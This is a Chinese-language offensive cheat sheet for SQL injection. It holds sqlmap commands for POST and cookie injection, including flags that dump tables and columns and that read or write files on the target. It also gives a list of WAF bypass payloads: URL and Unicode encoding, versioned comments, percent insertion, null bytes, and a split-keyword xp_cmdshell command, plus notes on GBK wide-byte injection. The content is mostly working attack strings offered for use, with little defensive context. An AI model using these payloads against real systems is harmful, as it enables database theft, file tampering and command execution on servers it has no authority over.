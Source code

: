 #### post注入
```bash
sqlmap -u http://xxx.asp --data"id=114" --level 3
```

#### cookie注入

```bash
sqlmap -u http://xxx.asp --cookie "id=114" --level 2
```

- `--tables` 爆表
- `-T 表名 --columns` 爆字段
- `-T 表名 -C 字段名 -C" "` --dump
- `--file-read 文件` 读取文件
- `--file-write 本地文件 --file-dest 目标目录`写入文件
## waf绕过

1. url编码
```
?id=1 union select pass from admin limit 1
?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%70%61%73%73%20%66%72%6f%6d%20%61%64%6d%69%6e%20%6c%69%6d%69%74%20%31
```

2. Unicode编码

```
'e' => '%u0065', //这是他的Unicode 编码
?id=1 union select pass from admin limit 1
?id=1 un%u0069on sel%u0065ct pass f%u0072om admin li%u006dit 1
```
3. 反注释
```
/*!30000union all select (select distinct concat(0x7e,0x27,unhex(Hex(cast(schema_name as char))),0x27,0x7e) from `information_schema`.schemata limit 10,1),null,null,null,null*/--
```
4. 加%
```
newsid=60+a%nd%201=(se%lect%20@@VERSION)--
newsid=60+a%nd%201=(se%lect%20@@servername)--
```

5. NULL字节
```
xx.asp?0day5.com=%00.&xw_id=69%20 and 1=1和xx.asp?0day5.com=%00.&xw_id=69%20 and 1=2
```
6. 关键字拆分
```
cnseay.com/1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
```

7. 宽字符注入  
这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
